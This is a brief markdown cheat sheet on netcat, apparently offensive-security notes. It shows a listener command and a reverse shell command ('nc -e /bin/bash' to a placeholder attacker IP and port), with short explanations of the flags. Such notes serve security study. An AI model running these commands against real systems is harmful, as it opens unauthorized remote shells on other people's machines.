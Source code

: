 ```yaml
---
title: NETCAT
summary: A featured networking utility which reads and writes data across network connections.
description: A featured networking utility which reads and writes data across network connections.
---
```


[http://netcat.sourceforge.net/](http://netcat.sourceforge.net/)

## NETCAT Listener


 > 
 > **<font color=red>nc -lvnp</font> \[ATTACKER_PORT\]**</br>
 > Open a listener on port 2112

## NETCAT Reverse Shell


 > 
 > **<font color=red>nc -e /bin/bash</font> \[ATTACKER_IP\] \[ATTACKER_PORT\]**</br>
 > Reverse shell. 

## NETCAT Flags


 > 
 > **<font color=red>-l</font>**</br>
 > Listener mode.
 > 
 > **<font color=red>-n</font>**</br>
 > No DNS.
 > 
 > **<font color=red>-v</font>**</br>
 > Verbose.
 > 
 > **<font color=red>-p</font> 2112**</br>
 > Port.
